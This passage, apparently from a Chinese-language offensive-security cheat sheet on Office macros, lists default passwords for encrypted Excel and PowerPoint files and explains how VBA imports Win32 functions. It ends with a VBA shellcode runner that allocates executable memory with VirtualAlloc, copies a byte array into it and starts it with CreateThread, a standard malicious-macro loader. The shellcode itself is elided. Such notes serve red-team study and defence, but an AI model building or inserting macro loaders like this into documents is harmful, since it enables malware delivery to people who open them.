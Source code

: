 | 产品       | 密码                 | 支持的格式    |
| ---------- | -------------------- | ------------- |
| Excel      | VelvetSweatshop      | 所有Excel格式 |
| PowerPoint | 01Hannes Ruescher/01 | .pps .ppt     |

## 办公宏执行WinAPI

### 描述

要导入Win32函数，我们需要使用关键字`Private Declare`
`Private Declare Function <NAME> Lib "<DLL_NAME>" Alias "<FUNCTION_IMPORTED>" (<ByVal/ByRef> <NAME_VAR> As <TYPE>, etc.) As <TYPE>`
如果我们在64位上工作，我们需要在`Declare`和`Function`关键字之间添加`PtrSafe`关键字
从`advapi32.dll`导入`GetUserNameA`： 

```VBA
Private Declare PtrSafe Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, ByRef nSize As Long) As Long
```

`GetUserNameA`在C中的原型： 

```C
BOOL GetUserNameA(
  LPSTR   lpBuffer,
  LPDWORD pcbBuffer
);
```

### 使用简单Shellcode运行器的示例

```VBA
Private Declare PtrSafe Function VirtualAlloc Lib "Kernel32.dll" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "Kernel32.dll" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
Private Declare PtrSafe Function CreateThread Lib "KERNEL32.dll" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Sub WinAPI()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long

    buf = Array(252, ...)
    
    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    

    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    res = CreateThread(0, 0, addr, 0, 0, 0)
    

End Sub
```
